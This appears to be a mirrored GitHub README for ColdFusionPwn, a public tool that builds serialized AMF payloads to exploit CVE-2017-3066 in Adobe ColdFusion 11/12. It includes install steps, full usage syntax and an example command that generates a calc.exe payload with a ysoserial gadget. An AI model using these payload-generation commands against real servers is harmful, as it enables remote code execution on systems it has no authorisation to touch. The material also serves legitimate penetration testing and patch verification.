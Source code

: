 # ColdFusionPwn

Exploitation Tool for CVE-2017-3066 targeting Adobe Coldfusion 11/12

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/codewhitesec](https://github.com/codewhitesec) |
| Url      | [https://github.com/codewhitesec/ColdFusionPwn](https://github.com/codewhitesec/ColdFusionPwn)                                               |
| Stars    | 86                                                          |
| License  | MIT License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# ColdFusionPwn
Exploitation Tool for CVE-2017-3066 targeting Adobe Coldfusion 11/12.

## Description
The tool allows you to generate serialized AMF-payloads to exploit the missing input validation of allowed classes.
For details see our [blog post](https://codewhitesec.blogspot.com/2018/03/exploiting-adobe-coldfusion.html).

## Install
Get the latest version of [ysoserial](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar).
Get ColdFusionPwn from [releases](https://github.com/codewhitesec/ColdFusionPwn/releases).

## Usage
```bash
java -cp ColdFusionPwn-0.0.1-SNAPSHOT-all.jar:ysoserial-master-SNAPSHOT.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner [-s|-e] [payload type] '[command]' [outfile]
```
```
- [-s|-e]         Setter (CF11) or Externalizable Exploit (CF11/12) technique
- [payload type]  ysoserial gadget payload 
- [command]       command to be executed
- [outfile]       output file for the generated payload
```
It's required to have ColdFusionPwn-0.0.1-SNAPSHOT-all.jar as first entry in the classpath, since the ApacheCommons BeanUtils library shipped with ysoserial is newer (and has a different serialversion uid).

## Examples
```bash
java -cp ColdFusionPwn-0.0.1-SNAPSHOT-all.jar:ysoserial-master-SNAPSHOT.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 calc.exe /tmp/out.amf
```



## Get the content

```
git clone https://github.com/codewhitesec/ColdFusionPwn
cd ColdFusionPwn
```

{% embed url="https://github.com/codewhitesec/ColdFusionPwn" %}

<figure><img src="https://avatars.githubusercontent.com/u/8680262?v=4" alt=""><figcaption><p>codewhitesec</p></figcaption></figure>
